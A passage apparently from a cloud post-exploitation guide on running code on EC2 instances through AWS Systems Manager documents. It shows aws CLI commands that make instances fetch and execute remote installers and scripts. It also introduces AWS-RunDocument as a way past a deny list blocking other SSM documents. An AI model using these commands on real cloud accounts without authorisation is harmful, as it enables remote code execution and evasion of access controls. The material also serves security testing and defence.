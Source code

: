 ```bash
aws ssm send-command --document-name "AWS-InstallApplication" \
    --instance-id i-06ae9883fe6e5d721 \
    --parameters '{"action":["Install"], "parameters":["parameters"], "source":["https://your-server.com/file.msi"]}'
```

##### AWS-RunRemoteScript

It downloads from remote locations scripts and executes them. It supports S3 Buckets and GitHub repositories. It works for both UNIX and Windows machines.

Example usage:

```bash
aws ssm send-command --document-name "AWS-RunRemoteScript" \
    --instance-id i-06ae9883fe6e5d721 \
    --parameters '{"sourceType":["S3"], "sourceInfo":["{\"path\":\"s3://my-bucket/script.sh\"}"]}'
```

##### AWS-RunDocument

Last, but not least, AWS-RunDocument. This is a special one. It downloads and executes other SSM Documents. Let’s take a moment to understand this better.

So, let’s say the cloud engineer extended the deny list from the initial policy and blocked all the other SSM Documents presented above.

![bad-block](../../images/aws/post_exploitation/run_shell_commands_on_ec2/bad-block.png)
